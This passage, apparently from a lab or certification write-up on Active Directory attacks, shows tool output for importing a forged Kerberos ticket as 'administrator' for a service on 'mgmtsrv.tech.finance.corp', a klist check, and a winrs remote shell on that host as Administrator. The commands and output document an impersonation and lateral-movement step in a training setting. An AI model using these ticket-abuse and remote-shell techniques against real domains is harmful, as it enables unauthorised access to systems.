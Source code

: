 ```
[*] AuthTime       : 3/11/2025 9:51:08 AM
[*] StartTime      : 3/11/2025 9:51:08 AM
[*] EndTime        : 3/11/2025 7:51:08 PM
[*] RenewTill      : 3/18/2025 9:51:08 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x13e557

Cached Tickets: (1)

#0>     Client: administrator🎭 @ TECH.FINANCE.CORP🏛️
        Server: http📌/mgmtsrv🖥️.tech.finance.corp @ TECH.FINANCE.CORP
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 3/11/2025 9:51:08 (local)
        End Time:   3/11/2025 19:51:08 (local)
        Renew Time: 3/18/2025 9:51:08 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

`winrs -r:mgmtsrv.tech.finance.corp cmd`:
```
Microsoft Windows [Version 10.0.17763.2452]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator.TECH>
```
🚀

![mgmtsrv | administrator #>](https://custom-icon-badges.demolab.com/badge/mgmtsrv-administrator%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👤
```

`set computername`:
```
COMPUTERNAME=MGMTSRV🖥️
```
🚩

---
